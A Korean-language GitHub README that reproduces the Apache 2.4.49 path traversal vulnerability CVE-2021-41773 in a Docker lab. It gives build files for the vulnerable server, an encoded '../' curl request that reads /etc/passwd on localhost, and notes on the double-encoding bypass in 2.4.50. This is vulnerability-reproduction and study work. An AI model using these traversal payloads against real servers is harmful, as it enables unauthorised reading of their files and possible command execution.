


# CVE-2021-41773 Apache Path Traversal PoC

## 개요

이 보고서는 Apache HTTP Server 2.4.49 버전에서 발생한 경로 탐색(Path Traversal) 및 원격 코드 실행(RCE) 취약점(CVE-2021-41773)에 대한 PoC를 Docker 환경으로 재현하고, 분석 결과를 정리한 문서입니다. 해당 취약점은 URL 인코딩을 우회하여 시스템 파일에 접근할 수 있습니다.

---

## 취약점 설명

- Apache 2.4.49에서는 요청 경로 내의 `../` 경로 탐색 문자열에 대한 필터링이 불완전하여, URL 인코딩(`%2e%2e/`) 등을 이용한 우회가 가능했습니다.
- 이로 인해 공격자는 웹 루트 밖의 시스템 파일(`/etc/passwd` 등)에 접근하거나, CGI 기능이 활성화된 경우 임의의 명령 실행이 가능합니다.

---

## 취약 환경 구성 파일

### 📄 Dockerfile

```dockerfile
FROM ubuntu:20.04

RUN apt-get update --allow-releaseinfo-change && \
    DEBIAN_FRONTEND=noninteractive apt-get install -y \
    wget curl make gcc g++ perl libpcre3 libpcre3-dev \
    libapr1 libapr1-dev libexpat1-dev && \
    apt-get clean

RUN wget https://archive.apache.org/dist/apr/apr-1.7.0.tar.gz && \
    tar xvfz apr-1.7.0.tar.gz && cd apr-1.7.0 && \
    ./configure --prefix=/usr/local/apr && make && make install

RUN wget https://archive.apache.org/dist/apr/apr-util-1.6.1.tar.gz && \
    tar xvfz apr-util-1.6.1.tar.gz && cd apr-util-1.6.1 && \
    ./configure --with-apr=/usr/local/apr --prefix=/usr/local/apr-util && \
    make && make install

RUN wget https://sourceforge.net/projects/pcre/files/pcre/8.45/pcre-8.45.tar.gz && \
    tar xvfz pcre-8.45.tar.gz && cd pcre-8.45 && \
    ./configure --prefix=/usr/local/pcre && make && make install

RUN wget https://archive.apache.org/dist/httpd/httpd-2.4.49.tar.gz && \
    tar -xf httpd-2.4.49.tar.gz && cd httpd-2.4.49 && \
    ./configure --prefix=/usr/local/apache2.4.49 \
    --enable-module=so --enable-rewrite --enable-so \
    --with-apr=/usr/local/apr/ \
    --with-apr-util=/usr/local/apr-util \
    --with-pcre=/usr/local/pcre \
    --enable-mods-shared=all && \
    make && make install

COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh

EXPOSE 8080
CMD ["/entrypoint.sh"]
```

### 📄 entrypoint.sh

```bash
#!/bin/bash

sed -i 's/Listen 80/Listen 8080/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i 's/Require all denied/Require all granted/' /usr/local/apache2.4.49/conf/httpd.conf
sed -i '/mod_cgi.so/s/^#//g' /usr/local/apache2.4.49/conf/httpd.conf

cat <<EOF >> /usr/local/apache2.4.49/conf/httpd.conf

<Directory "/usr/local/apache2.4.49/cgi-bin">
    Options +ExecCGI
    AddHandler cgi-script .sh
    Require all granted
</Directory>
EOF

/usr/local/apache2.4.49/bin/httpd -k start -DFOREGROUND
```

### 📄 docker-compose.yml

```yaml
version: '3'
services:
  apache-vuln:
    build: .
    ports:
      - "8080:8080"
```

---

## PoC 수행

### 1️⃣ 도커 빌드 및 실행

```bash
docker compose up -d
```

### 2️⃣ Apache 버전 확인

```bash
curl -I http://localhost:8080
```

### 3️⃣ Path Traversal 테스트

```bash
curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

---

## 패치 분석 및 버전 비교

| 버전 | 우회 가능 여부 | 설명 |
|------|----------------|------|
| 2.4.49 | ✅ 가능 | `%2e%2e/` 인코딩 필터링 미흡 |
| 2.4.50 | ✅ 가능 | 이중 인코딩(`%%32%65`)으로 우회 가능 |
| 2.4.51 | ❌ 차단 | 이중 인코딩, 슬래시 필터링까지 완전 차단 |

> Apache는 `ap_normalize_path`, `ap_unescape_url` 함수에 필터링을 추가하여 우회 가능성을 원천 차단

---
